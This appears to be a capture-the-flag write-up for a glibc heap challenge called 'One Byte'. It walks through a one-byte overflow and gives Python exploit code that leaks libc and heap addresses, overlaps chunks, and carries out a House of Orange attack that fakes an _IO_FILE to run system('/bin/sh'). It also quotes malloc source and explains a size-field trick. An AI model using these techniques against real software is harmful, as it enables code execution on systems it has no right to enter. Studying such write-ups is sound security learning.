 # One byte

## Overall
![image](../images/One-Byte/checksec.png)

- Full armour

![image](../images/One-Byte/optiopns.png)

- No leak libc, heap.

![image](../images/One-Byte/fuzz.png)

- No double free.

![image](../images/One-Byte/fuzz_double_free.png)

- No UAF.

### malloc
![image](../images/One-Byte/malloc.png)

- As you see, it calls calloc instead of malloc with a size of 0x58 (0x60 for chunk).
- Memory blocks allocated by the calloc function are always initialized to zero.

### free

#### It is simple that the program call free to free the chunk at index from user input.

### edit

#### It takes input from user(index) to write data to this index chunk.

![image](../images/One-Byte/edit.png)

- Input with a size of 0x59.

### read

#### It is simple that the program call write data from the chunk at index to stdout.

### quit

#### Leave the program.

## Bug

#### Call alloc to allocate 0x58 size; however, it take input from the user with 0x59 size. This mean that I can overwrite one byte.


## Approach

#### Everything will be better if I have the address of libc and heap

### Leak libc

***target:*** unsortedbin + remainder. 

#### I can overwrite one byte, so I can control the size of the succeeding chunk. Thus, if I overwrite the size of the chunk with the larger size, then free it, this free chunk will overlap other chunk that doesn't free. 

```python=
chunk_A = malloc()
chunk_B = malloc()
chunk_C = malloc()
chunk_D = malloc()

edit(chunk_A, p8(0)*0x58 + p8(0xc1))
free(chunk_B)

```

![image](../images/One-Byte/after_overwrite.png)
-  After overwrite

![image](../images/One-Byte/after_free.png)
- After free 

***Now, I can write and read data in chunk_C, which is overlaped by free chunk, so I can leak data from this free chunk.***


Add some lines of code and see the result

```python=
chunk_B2 = malloc()

unsortedbin_data = read(chunk_C)
unsortedbin = u64(unsortedbin_data[0:8])
info("unsortedbin: " + hex(unsortedbin))
```
![image](../images/One-Byte/unsortedbin.png)

![image](../images/One-Byte/unsortedbin_leak.png)

### Leak heap

**target:** fastbin dup

Add some lines of code

```python=
chunk_C2 = malloc()
free(chunk_A)
free(chunk_C2)

fastbin_data = read(chunk_C)
heap = u64(fastbin_data[0:8])
info("heap: " + hex(heap))
```

![image](../images/One-Byte/fastbins.png)

![image](../images/One-Byte/leak_heap.png)


### The house of orange

***target:*** overwrite vtable of _IO_list_all to trigger overflow function in vtable for pop shell.
Because I can overwrite one byte(size of chunk), I can control heap to create fake file stream.

```python=
# house of oragne
chunk_C3 = malloc()
chunk_A2 = malloc()

edit(chunk_A2, p8(0)*0x58 + p8(0xc1))
free(chunk_B2)

chunk_B3 = malloc()

# string "/bin/sh" to _flag size field
edit(chunk_B3, p64(0)*10 + b'/bin/sh\x00')

payload = \
p64(0) + p64(libc.sym['_IO_list_all'] - 0x10) +\
p64(1) + p64(2) 

edit(chunk_C3, payload)

edit(chunk_E, p64(libc.sym['system']) + p64(heap + 0x178))

malloc()
```

**My configure struct**


![image](../images/One-Byte/configure_struct_vis.png)


![image](../images/One-Byte/configure_struct_io_filePLUS.png)


![image](../images/One-Byte/configure_struct_io_filePLUS_flags.png)


**However, there will be a mistake when I do it. Notice that triggers can happen when sorting this fake chunk, not allocating it (the program will not abort and the location of this will not reside in 0x60 bk small bin)**

![image](../images/One-Byte/io_list_all.png)

- IO_list_all

![image](../images/One-Byte/io_list_all_file_chain.png)

- IO_list_all.file._chain


***I set up fake file stream successfully; however, I need to trigger to move it into _IO_list_all***

#### Trigger size

![image](../images/One-Byte/trigger_size.png)

***Method 1***
_IO_list_all &rarr; _chain: 0x60 bk small bin &rarr; _chain: 0xb0 small bin

***Set size chunk C to 0xb1***

***Method 2***


```cpp=
          /* Take now instead of binning if exact fit */

          if (size == nb)
            {
              set_inuse_bit_at_offset (victim, size);
              if (av != &main_arena)
                victim&rarr;size |= NON_MAIN_ARENA;
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
            }

          /* place chunk in bin */
```

- The exact fitting chunks are allocated from the unsortedbin, otherwise they're sorted into the appropriate small or large bin. The 'nb' variable represents the normalized request size, it's the result of malloc rounding up your request to the nearest actual chunk size.
- For example, if I request 3 bytes, 'nb' would hold the value 0x20.
- In the case of our challenge binary 'nb' is always 0x60.
- The 'size' variable represents the size of the unsorted chunk currently under inspection. malloc masks off the chunk's flags prior to this comparison to stop them from interfering.
- ***But chunk size fields only hold three flags, the fourth least-significant bit is neither a flag nor does it contribute to a chunk's size. During unsorted bin searches it is not masked off prior to this comparison because there's no good reason for it to ever be set in the first place.***
- So if we set the fourth least-significant bit of our 0x60 chunk, giving it a size field of 0x68, or 0x69 if you want to keep the prev_inuse flag, **it won't be considered an exact fit during requests for 0x60-sized chunks**. However, i**t will sort this chunk to 0x60 small bin.**
- Furthermore, the code responsible for sorting chunks into their respective bins does mask off, specifically it rotates away, the entire low order nybble of their size field, meaning that our chunk with the 0x68 size field will still be correctly sorted into the 0x60 smallbin.

***Set size chunk C to 0x68***